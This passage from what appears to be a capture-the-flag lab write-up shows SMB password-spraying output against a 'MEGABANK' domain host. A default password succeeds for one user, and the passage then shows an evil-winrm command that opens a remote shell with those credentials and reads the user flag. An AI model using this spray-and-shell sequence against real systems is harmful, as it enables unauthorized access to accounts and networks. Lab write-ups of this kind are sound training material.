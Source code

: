     SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\claire:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\paulo:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\steve:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\annette:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\annika:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\per:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\claude:Welcome123! STATUS_LOGON_FAILURE 
    SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\melanie:Welcome123! 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\zach:Welcome123! STATUS_ACCESS_DENIED 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\simon:Welcome123! STATUS_ACCESS_DENIED 
    SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\naoki:Welcome123! STATUS_ACCESS_DENIED 



Fourth from the bottom, there's success for melanie.

### WinRM Shell

I don't know if malanie is an administrator or in the Remote Management
Users group, but it's worth a shot to see if I can EvilWinRM to get a
shell as melanie. It works:



    root@kali# evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'

    Info: Starting Evil-WinRM shell v1.7

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\melanie\Documents> 



And get `uset.txt`:



    *Evil-WinRM* PS C:\Users\melanie\desktop> type user.txt
    0c3be45f************************



## Priv: melanie --\> ryan

### Enumeration

After looking around melanie's home directory and not finding anything
useful, I went to the filesystem root:
